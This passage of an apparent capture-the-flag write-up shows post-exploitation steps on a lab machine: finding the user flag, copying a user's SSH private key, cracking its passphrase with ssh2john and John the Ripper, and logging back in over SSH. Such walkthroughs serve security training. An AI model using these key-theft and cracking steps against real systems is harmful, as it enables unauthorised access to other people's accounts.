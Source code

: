 ```bash
annie@desktop:/home/annie$ export TERM=xterm-256color
annie@desktop:/home/annie$
```

<br>

## System Enumeration

The **user.txt** flag is waiting for us in our home directory:

`wc -c /home/annie/user.txt`

```bash
23 /home/annie/user.txt
```

`sudo -l` requires a password.

Nothing interesting capabilities wise.

Looking in annie's .ssh directory shows an already created ssh key which I copy to my own system and try and ssh back over.

`ssh -i id_rsa annie@$ip`

```bash
Enter passphrase for key 'id_rsa': 
```

I try and crack it with **John the Ripper**:

`ssh2john id_rsa > hash`

`john hash --wordlist=rockyou.txt`

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
<REDACTED>         (id_rsa)     
1g 0:00:00:31 DONE (2022-08-23 22:22) 0.03140g/s 639.1p/s 639.1c/s 639.1C/s chinos..MELANIE
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And ssh back over with `ssh -i id_rsa annie@$ip`:

```bash
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 4.15.0-173-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Sat May 14 16:03:44 2022 from 192.168.58.128
annie@desktop:~$
```
